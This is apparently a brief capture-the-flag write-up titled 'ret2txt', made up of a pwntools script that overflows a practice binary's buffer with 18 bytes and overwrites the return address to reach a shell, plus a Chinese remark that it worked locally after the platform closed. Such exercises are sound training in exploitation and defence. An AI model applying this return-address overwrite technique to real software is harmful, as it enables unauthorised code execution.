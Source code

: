 ## ret2txt

exp

```python
from pwn import *

local = 1
p = process('./ret2text')
p.sendline(b'*'*(10+8)+p64(0x40068B))
p.sendline(b'ls')
p.interactive()
```

平台关了，本地通了
